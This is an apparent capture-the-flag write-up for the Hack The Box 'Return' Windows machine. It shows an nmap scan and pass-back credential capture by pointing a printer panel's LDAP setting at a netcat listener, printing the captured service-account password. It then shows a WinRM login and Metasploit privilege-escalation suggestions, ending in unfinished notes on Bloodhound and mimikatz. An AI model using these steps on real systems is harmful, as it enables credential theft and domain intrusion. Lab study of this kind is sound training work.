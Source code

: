 # Return

## Information Gathering

## Enumeration

Start with an nmap scan:

```s
$ sudo nmap -Pn -T4 -p- -A -oN nmap/all.nmap 10.10.11.108    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-29 18:31 EDT
Nmap scan report for 10.10.11.108
Host is up (0.012s latency).
Not shown: 65510 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-29 22:50:45Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
```

### tcp/80

Navigating the the web application and viewing `http://10.10.11.108/settings.php` shows an interesting form. The form allows a user to update the server address, port, username, and password. Oddly enough, the password is already within the HTML, however it has been redacted so we can't view it. Lets try changing the server address to our address: `10.10.14.24` and starting up a `nc` listener on port 389

```s
$ nc -lnvp 389
listening on [any] 389 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.11.108] 63929
0*`%return\svc-printer
                      1edFg43012!!
```

After submitting the request we catch what appear to be a username and gibberish. This may be the password.

## Foothold

Lets try using the credentials to authenticate into the machine and get a shell.

```s
$ evil-winrm -i 10.10.11.108 -u "svc-printer" -p '1edFg43012!!'
*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```
 
We're in

## Privilege Escalation

```
x 1   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The target appears to be vulnerable. Vulnerable Windows 10 v1809 build detected!
x 2   exploit/windows/local/cve_2020_1048_printerdemon               Yes                      The target appears to be vulnerable.
x 3   exploit/windows/local/cve_2020_1337_printerdemon               Yes                      The target appears to be vulnerable.
x 4   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
x 5   exploit/windows/local/adobe_sandbox_adobecollabsync            No                       Cannot reliably check exploitability.
 24  exploit/windows/local/ms13_081_track_popup_menu                No                       Cannot reliably check exploitability.
 25  exploit/windows/local/ms14_058_track_popup_menu                No                       Cannot reliably check exploitability.
```


- Bloodhound `shortest path to high value targets`
- mimikatz